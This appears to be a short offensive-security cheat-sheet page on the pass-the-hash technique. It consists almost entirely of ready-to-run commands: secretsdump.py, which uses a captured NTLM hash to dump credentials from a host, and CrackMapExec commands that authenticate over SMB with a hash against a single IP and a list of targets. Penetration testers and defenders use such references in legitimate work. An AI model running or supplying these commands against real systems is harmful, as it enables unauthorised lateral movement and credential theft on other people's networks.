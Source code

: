 ```yaml
---
title : "Pass-the-hash"
# pre : ' '
description : "Use the hash of a user to authenticate around the network."
date : 2020-07-08T09:50:00+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Pass-the-hash

Use the hash of a user to authenticate around the network.

### Secretsdump.py

```plain
secretsdump.py offsec/Taskscheduler -hashes 4aed682cfe9b5ccf87903c166d11d7afMZWA 10.10.10.10
```

### CrackmapExec

```plain
cme smb 10.10.10.10 -u johndo -H 8db8440e2ae574cc606de9d7be466820
cme smb ip-list.txt -u johndo -H 8db8440e2ae574cc606de9d7be466820
```

[En.hackndo.com - Pass-The-Hash](https://en.hackndo.com/pass-the-hash/)

